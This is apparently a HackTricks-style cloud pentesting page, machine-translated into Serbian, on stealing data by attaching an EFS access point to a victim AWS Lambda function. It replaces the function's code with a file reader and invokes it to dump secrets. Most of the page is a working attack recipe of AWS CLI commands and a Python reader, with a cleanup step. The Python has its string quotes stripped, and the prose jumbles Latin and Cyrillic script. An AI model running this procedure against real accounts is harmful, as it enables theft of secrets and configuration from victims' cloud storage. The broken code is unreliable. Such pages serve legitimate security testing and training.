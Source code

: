 # AWS Lambda – EFS Mount Injection via UpdateFunctionConfiguration (Data Theft)

{{#include ../../../../banners/hacktricks-training.md}}

Iskoristite `lambda:UpdateFunctionConfiguration` da prikačite postojeći EFS Access Point na Lambda, zatim rasporedite trivijalan kod koji nabraja/čita fajlove iz mountovane putanje kako biste izvezli deljene tajne/konfiguraciju kojoj funkcija ranije nije imala pristup.

## Requirements
- Dozvole na nalogu/principalu žrtve:
- `lambda:GetFunctionConfiguration`
- `lambda:ListFunctions` (to find functions)
- `lambda:UpdateFunctionConfiguration`
- `lambda:UpdateFunctionCode`
- `lambda:InvokeFunction`
- `efs:DescribeMountTargets` (to confirm mount targets exist)
- Pretpostavke okruženja:
- Ciljana Lambda ima VPC omogućen i njeni subneti/SG mogu da dosegnu EFS mount target SG preko TCP/2049 (npr. rola ima AWSLambdaVPCAccessExecutionRole i VPC rutiranje to dozvoljava).
- EFS Access Point se nalazi u istom VPC i ima mount targete u AZ-ovima subnet-a Lambda.

## Napad
- Promenljive
```
REGION=us-east-1
TARGET_FN=<target-lambda-name>
EFS_AP_ARN=<efs-access-point-arn>
```
1) Povežite EFS Access Point sa Lambda
```
aws lambda update-function-configuration \
--function-name $TARGET_FN \
--file-system-configs Arn=$EFS_AP_ARN,LocalMountPath=/mnt/ht \
--region $REGION
# wait until LastUpdateStatus == Successful
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
2) Overwrite code jednostavnim readerom koji nabraja fajlove i prikazuje prvih 200 bajtova potencijalnog secret/config file
```
cat > reader.py <<PY
import os, json
BASE=/mnt/ht

def lambda_handler(e, c):
out={ls:[],peek:None}
try:
for root, dirs, files in os.walk(BASE):
for f in files:
p=os.path.join(root,f)
out[ls].append(p)
cand = next((p for p in out[ls] if secret in p.lower() or config in p.lower()), None)
if cand:
with open(cand,rb) as fh:
out[peek] = fh.read(200).decode(utf-8,ignore)
except Exception as ex:
out[err]=str(ex)
return out
PY
zip reader.zip reader.py
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://reader.zip --region $REGION
# If the original handler was different, set it to reader.lambda_handler
aws lambda update-function-configuration --function-name $TARGET_FN --handler reader.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name $TARGET_FN --query LastUpdateStatus --output text --region $REGION)" = "Successful" ]; do sleep 2; done
```
3) Pozvati i preuzeti podatke
```
aws lambda invoke --function-name $TARGET_FN /tmp/efs-out.json --region $REGION >/dev/null
cat /tmp/efs-out.json
```
Izlaz bi trebalo да sadrži listing direktorijuma под /mnt/ht и kratak prikaz izabранog secret/config fajla са EFS.

## Uticaj
Napadač са наведеним привилегијама може mount-овати произвољне in-VPC EFS Access Points у жртвине Lambda функције како би прочитао и изнео делјену конфигурацију и secrets услaдиштене на EFS које су претходно биле недоступне тој функцији.

## Čišćenje
```
aws lambda update-function-configuration --function-name $TARGET_FN --file-system-configs [] --region $REGION || true
```
{{#include ../../../../banners/hacktricks-training.md}}
